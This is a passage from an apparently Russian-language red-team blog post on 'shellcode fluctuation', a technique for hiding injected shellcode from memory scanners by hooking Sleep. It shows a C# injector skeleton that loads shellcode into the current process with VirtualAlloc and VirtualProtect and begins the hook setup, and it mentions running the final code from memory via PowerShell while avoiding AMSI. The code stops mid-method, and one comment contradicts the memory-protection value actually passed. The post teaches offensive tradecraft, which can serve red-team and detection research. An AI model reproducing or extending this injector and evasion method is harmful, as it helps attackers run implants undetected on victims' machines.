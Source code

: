 [![rastamouse-poc-twitter.png](/assets/images/shellcode-fluctuation/rastamouse-poc-twitter.png)](/assets/images/shellcode-fluctuation/rastamouse-poc-twitter.png)
{:.center-image}

PoC от @\_RastaMouse (изображение – twitter.com)
{:.quote}

Что ж, мы можем попробовать сделать что-то подобное, но без тяжеловесной зависимости в виде MinHook.NET, которую не хотелось бы включать в инжектор. Так как я планирую запускать финальный код из памяти через PowerShell, лишнее беспокойство AMSI вызывать ни к чему.

Так как объяснять, как ты писал код, в тексте статьи всегда непросто, поступим так: сперва наметим такой же каркас программы, как на скриншоте выше, а затем реализуем недостоющую логику.

## Прототипирование

Итак, вот что у меня получилось в качестве наброса схематичного кода:

```cs
using System;
using System.IO;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Threading;

namespace FluctuateInjector
{
    class Program
    {
        // Классическая инъекция шеллкода в текущий процесс
        static void Main(string[] args)
        {
            var shellcodeBytes = File.ReadAllBytes(@"C:\Users\snovvcrash\Desktop\dllSleep.bin");
            var shellcodeLength = shellcodeBytes.Length;

            // Выделяем область памяти в адресном пространстве текущего процесса инжектора (0x3000 = MEM_COMMIT | MEM_RESERVE, 0x40 = PAGE_EXECUTE_READWRITE)
            var shellcodeAddress = Win32.VirtualAlloc(IntPtr.Zero, (IntPtr)shellcodeLength, 0x3000, 0x04);
            // и копируем туда байты шеллкода
            Marshal.Copy(shellcodeBytes, 0, shellcodeAddress, shellcodeLength);

            // Репротект памяти после записи шеллкода (0x20 = PAGE_EXECUTE_READ)
            Win32.VirtualProtect(shellcodeAddress, (uint)shellcodeLength, 0x20, out _);

            // Хукаем Sleep
            var fs = new FluctuateShellcode(shellcodeAddress, shellcodeLength);
            fs.EnableHook();
```
